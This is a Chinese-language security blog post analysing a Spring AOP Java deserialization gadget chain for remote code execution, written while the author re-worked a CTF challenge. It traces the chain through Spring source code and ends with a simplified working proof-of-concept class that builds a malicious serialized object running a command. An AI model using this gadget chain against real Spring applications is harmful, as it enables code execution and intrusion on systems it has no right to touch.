# SpringAOP新链浅析-先知社区

> **来源**: https://xz.aliyun.com/news/17530  
> **文章ID**: 17530

---

# 前言

在复现CCSSSC软件攻防赛的时候发现需要打SpringAOP链子，于是跟着前人的文章自己动手调试了一下

参考了大佬的文章

```
https://gsbp0.github.io/post/springaop/#%E6%B5%81%E7%A8%8B
https://mp.weixin.qq.com/s/oQ1mFohc332v8U1yA7RaMQ
```

# 正文

依赖于Spring-AOP和aspectjweaver两个包，但是springboot中的spring-boot-starter-aop自带包含这俩类

## 链子终点分析

AbstractAspectJAdvice类继承了 Serializable 反序列化接口

污点函数是org.springframework.aop.aspectj.AbstractAspectJAdvice的invokeAdviceMethodWithGivenArgs方法

```
protected Object invokeAdviceMethod(JoinPoint jp, @Nullable JoinPointMatch jpMatch, @Nullable Object returnValue, @Nullable Throwable t) throws Throwable {
        return this.invokeAdviceMethodWithGivenArgs(this.argBinding(jp, jpMatch, returnValue, t));
    }

    protected Object invokeAdviceMethodWithGivenArgs(Object[] args) throws Throwable {
        Object[] actualArgs = args;
        if (this.aspectJAdviceMethod.getParameterCount() == 0) {
            actualArgs = null;
        }

        try {
            ReflectionUtils.makeAccessible(this.aspectJAdviceMethod);
            return this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);
        } catch (IllegalArgumentException var4) {
            IllegalArgumentException ex = var4;
            throw new AopInvocationException("Mismatch on arguments to advice method [" + this.aspectJAdviceMethod + "]; pointcut expression [" + this.pointcut.getPointcutExpression() + "]", ex);
        } catch (InvocationTargetException var5) {
            InvocationTargetException ex = var5;
            throw ex.getTargetException();
        }
    }
```



看到这里，这里不就是在反射调用了吗？

类似于

```
runtimeMethod.invoke(runtimeClass.getDeclaredConstructor().newInstance(),"calc");
```

往下寻找，看看它的子类



它的子类都会去调用invokeAdviceMethod方法

同时发现他的子类AspectJAroundAdvice、AspectJAfterThrowingAdvice、AspectJAroundAdvice

会利用invoke方法去调用invokeAdviceMethod方法

## 链子中间关键部分分析

在ReflectiveMethodInvocation类中发现

有个proceed方法，调用了invoke的方法



那么目前的链子就是

```
org.springframework.aop.framework.ReflectiveMethodInvocation#proceed->
org.springframework.aop.aspectj.AspectJAroundAdvice#invoke->
org.springframework.aop.aspectj.AbstractAspectJAdvice#invokeAdviceMethod->
org.springframework.aop.aspectj.AbstractAspectJAdvice#invokeAdviceMethodWithGivenArgs
```

### proceed方法分析

第一个点是interceptorOrInterceptionAdvice的获取，是从interceptorsAndDynamicMethodMatchers中拿到的，该属性本身定义就是一个List，可以序列化，



而索引currentInterceptorIndex本身也只是int类型。

因此可以认为interceptorOrInterceptionAdvice是可控的。

第二个点是interceptorOrInterceptionAdvice的类型，按照上面的调用链，这个对象的类型应该是org.springframework.aop.aspectj.AspectJAroundAdvice（AbstractAspectJAdvice的子类），才能去触发污点函数。

那么在if条件判断的时候

instanceof是Java中的二元运算符，左边是对象，右边是类；当对象是右边类或子类所创建对象时，返回true；否则，返回false。

但是右边是InterceptorAndDynamicMethodMatcher直接返回false

那么proceed代码是走下面的分支，触发invoke

不禁感叹，这个点真的是太妙了。

### 反序列化接口的寻找

ReflectiveMethodInvocation本身并没有实现Serializable接口，想要在反序列化过程中使用，只能依赖于动态创建。

静态代码搜索一波，看看有没有那些地方new了ReflectiveMethodInvocation类的



这里idea没搜出来，jd-gui倒是给找出来了

发现



org.springframework.aop.framework.JdkDynamicAopProxy#invoke，

并且在创建后就调用proceed方法

这里的chain就是控制传入ReflectiveMethodInvocation的interceptorsAndDynamicMethodMatchers对象

即我们需要传入AspectJAroundAdvice

### JdkDynamicAopProxy

如何去控制chain变量为我们想要的类呢？

看到chain的属性

```
List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
```

再看getInterceptorsAndDynamicInterceptionAdvice(method, targetClass)方法

```
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Method method, @Nullable Class<?> targetClass) {
        MethodCacheKey cacheKey = new MethodCacheKey(method);
        List<Object> cached = (List)this.methodCache.get(cacheKey);
        if (cached == null) {
            cached = this.advisorChainFactory.getInterceptorsAndDynamicInterceptionAdvice(this, method, targetClass);
            this.methodCache.put(cacheKey, cached);
        }

        return cached;
    }
```

那么这个返回值要么就是从methodCache来

要么就是从getInterceptorsAndDynamicInterceptionAdvice（下面简称GIADIA方法）

#### 1、methodCache

```
private transient Map<MethodCacheKey, List<Object>> methodCache;
```

看到这个属性加了transient修饰符

同时



在反序列化的时候就已经新建了，那么我们就认为这条路大概率行不通的

#### 2、GIADIA方法

```
List<Object> getInterceptorsAndDynamicInterceptionAdvice(Advised config, Method method, @Nullable Class<?> targetClass);
```

在这个方法中，三个参数都是可控的，Advised config实际上就是AdvisedSupport实例。

这个方法最终返回的就是interceptorList对象，核心是分析这个对象如何添加元素，然后往上找这个元素是怎么生成的。

经过分析，无论走哪个分支，这个元素最终都是通过registry.getInterceptors(advisor)获取的，

而registry则是直接通过静态GlobalAdvisorAdapterRegistry.getInstance()方法获取的静态单例类

最后审计，查找看到这个类

org.springframework.aop.framework.adapter.DefaultAdvisorAdapterRegistry#getInterceptors

```
public MethodInterceptor[] getInterceptors(Advisor advisor) throws UnknownAdviceTypeException {
        List<MethodInterceptor> interceptors = new ArrayList<>(3);
        Advice advice = advisor.getAdvice();
        if (advice instanceof MethodInterceptor) {
            interceptors.add((MethodInterceptor) advice);
        }
        for (AdvisorAdapter adapter : this.adapters) {
            if (adapter.supportsAdvice(advice)) {
                interceptors.add(adapter.getInterceptor(advisor));
            }
        }
        if (interceptors.isEmpty()) {
            throw new UnknownAdviceTypeException(advisor.getAdvice());
        }
        return interceptors.toArray(new MethodInterceptor[0]);
    }
```

很显然，这个类满足了实现MethodInterceptor接口的需求，但并没有实现Advice

通过JdkDynamicAopProxy来同时代理Advice和MethodInterceptor接口，并设置反射调用对象是AspectJAroundAdvice，如果后续仅被调用MethodInterceptor接口的方法，就可以直接混水摸鱼，如果还会调用Advice接口的方法，则可以再尝试使用CompositeInvocationHandlerImpl

## 链子整体



POC代码在

```
https://github.com/Ape1ron/SpringAopInDeserializationDemo1
```

主要是感觉项目看着写的有点繁杂，想着简化和修改一下

我们来分析一下怎么写的

### 1、getAspectJAroundAdvice方法



项目先是调用了getAspectJAroundAdvice方法

主要是先生成执行calc命令的字节码

因为最后的终点是走到这里

```
this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);
```

从aspectInstanceFactory中获取到一个方法类的实例

刚好SingletonAspectInstanceFactory就有一个



然后反射修改属性

因为要触发invoke，所以就用了AspectJAroundAdvice类

也就是对应的

```
AspectJAroundAdvice aspectJAroundAdvice = Reflections.newInstanceWithoutConstructor(AspectJAroundAdvice.class);
        Reflections.setFieldValue(aspectJAroundAdvice,"aspectInstanceFactory",singletonAspectInstanceFactory);
```

这两行代码

然后下面的反射修改

```
Reflections.setFieldValue(aspectJAroundAdvice,"declaringClass", TemplatesImpl.class);
Reflections.setFieldValue(aspectJAroundAdvice,"methodName", "newTransformer");
Reflections.setFieldValue(aspectJAroundAdvice,"parameterTypes", new Class[0]);
```

其实就是为了恶意字节码的反序列化



```
AspectJExpressionPointcut aspectJExpressionPointcut = new AspectJExpressionPointcut();    Reflections.setFieldValue(aspectJAroundAdvice,"pointcut",aspectJExpressionPointcut);
```

是因为AbstractAspectJAdvice的pointcut属性默认要为AspectJExpressionPointcut对象

```
Reflections.setFieldValue(aspectJAroundAdvice,"joinPointArgumentIndex",-1);
Reflections.setFieldValue(aspectJAroundAdvice,"joinPointStaticPartArgumentIndex",-1);
```

这里反射修改成-1是因为AbstractAspectJAdvice的需要，不然很多if走不进去



### 2、getObject方法



这里的意思其实就是分析的时候讲的，套了两层动态代理

然后最后面找一个readobject能触发tostring方法的来触发动态代理

# 后续

优化链子，分析了整条链子，以及师傅写的项目，想着能否去缩减一下代码量呢？

```
String cmd="calc";
Object templatesImpl = TemplatesImplNode.makeGadget(cmd);
/*获取newTransformer方法*/
Method method = templatesImpl.getClass().getMethod("newTransformer");
SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templatesImpl);
AspectJAroundAdvice aspectJAroundAdvice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),singletonAspectInstanceFactory);
```

这里发现其实不用反射的话，就会更加方便，new的时候会自动帮我们赋值-1

然后我们传入三个参数即可



如果试着变成这样呢？

```
AspectJAroundAdvice aspectJAroundAdvice = getAspectJAroundAdvice(cmd);
Object o1 =getFirstProxy(aspectJAroundAdvice);
Object o2 =getFinallProxy(o1);
Object badAttrValExe = BadAttrValExeNode.makeGadget(o2);
```

```
public static Object getFirstProxy(Object obj) throws Exception
    {
        AdvisedSupport as = new AdvisedSupport();
        as.setTargetSource(new SingletonTargetSource(obj));
        InvocationHandler jdkDynamicAopProxy1 = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy",AdvisedSupport.class,as);
        Object proxy1 = Proxy.makeGadget(jdkDynamicAopProxy1, Advisor.class, MethodInterceptor.class);
        return proxy1;
    }
    public static Object getFinallProxy(Object obj) throws Exception
    {
        Advisor advisor = new DefaultIntroductionAdvisor((Advice) obj);

        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        Reflections.setFieldValue(advisedSupport,"advisors",advisors);
        DefaultAdvisorChainFactory advisorChainFactory = new DefaultAdvisorChainFactory();
        Reflections.setFieldValue(advisedSupport,"advisorChainFactory",advisorChainFactory);
        advisedSupport.setTargetSource(new SingletonTargetSource("ape1ron"));
        InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy",AdvisedSupport.class,advisedSupport);
        Object proxy2 = Proxy.makeGadget(jdkDynamicAopProxy2, Map.class);
        return proxy2;
    }
```



会发现红色标记的地方很像

最后改成的POC

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.DefaultIntroductionAdvisor;
import org.springframework.aop.target.SingletonTargetSource;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.List;
import java.util.Map;
public class SpringAOP1 {
    public static void main(String[] args) throws Throwable {
        SpringAOP1 aop1 = new SpringAOP1();
        Object object = aop1.getObject("calc");
        Util.runGadgets(object);
    }
    public Object getObject (String cmd) throws Throwable {
        Object templatesImpl = TemplatesImplNode.makeGadget(cmd);
        Method method = templatesImpl.getClass().getMethod("newTransformer");
        SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templatesImpl);
        AspectJAroundAdvice aspectJAroundAdvice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),singletonAspectInstanceFactory);
        Object o2 =getFinallProxy(aspectJAroundAdvice);
        
        Object badAttrValExe = BadAttrValExeNode.makeGadget(o2);
        return badAttrValExe;
    }
    public static Object getFirstProxy(Object obj,Class[] clazzs) throws Exception
    {
        AdvisedSupport as = new AdvisedSupport();
        as.setTargetSource(new SingletonTargetSource(obj));
        InvocationHandler jdkDynamicAopProxy1 = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy",AdvisedSupport.class,as);
        Object proxy1 = Proxy.newProxyInstance(Proxy.class.getClassLoader(), clazzs, jdkDynamicAopProxy1);
        return proxy1;
    }
    public static Object getFinallProxy(Object obj) throws Exception
    {
        Advisor advisor = new DefaultIntroductionAdvisor((Advice) getFirstProxy(obj,new Class[]{MethodInterceptor.class, Advice.class}));

        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);
        AdvisedSupport advisedSupport = new AdvisedSupport();

        Reflections.setFieldValue(advisedSupport,"advisors",advisors);
        DefaultAdvisorChainFactory advisorChainFactory = new DefaultAdvisorChainFactory();
        Reflections.setFieldValue(advisedSupport,"advisorChainFactory",advisorChainFactory);

        advisedSupport.setTargetSource(new SingletonTargetSource("ape1ron"));
        InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy",AdvisedSupport.class,advisedSupport);
        Object proxy2 = Proxy.newProxyInstance(Proxy.class.getClassLoader(), new Class[]{Map.class}, jdkDynamicAopProxy2);
        return proxy2;
    }
}

```

这里说明一下makeGadget其实就是那些固定的写法就省略了，还有一些Reflections反射改值的方法

# 总结

该SpringAOP新链危害还是很大的，因为其依赖少的原因，而且本身就具备该依赖。
